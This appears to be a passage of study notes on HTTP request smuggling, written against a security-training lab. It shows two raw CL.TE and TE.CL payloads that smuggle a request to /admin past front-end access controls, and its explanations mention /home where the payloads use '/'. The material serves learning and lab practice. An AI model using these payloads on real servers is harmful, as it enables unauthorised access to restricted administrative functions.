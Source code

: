 Conditions for it to work?

It's important to note that the target web server must not support HTTP/2, Client-side desyncs rely on HTTP/1.1 connection reuse, and browsers generally favor HTTP/2 where available.



#### Exploiting Smuggling

##### Bypassing Frontend security controls CL.TE

For example, suppose an application uses the front-end server to implement access control restrictions, and Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL.

##### Bypassing Frontend security controls TE.CL

For example, suppose an application uses the front-end server to implement access control restrictions, and Suppose the current user is permitted to access /home but not /admin. They can bypass this restriction using the following request smuggling attack:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) that the requests have passed through the front-end controls, and so grants access to the restricted URL.
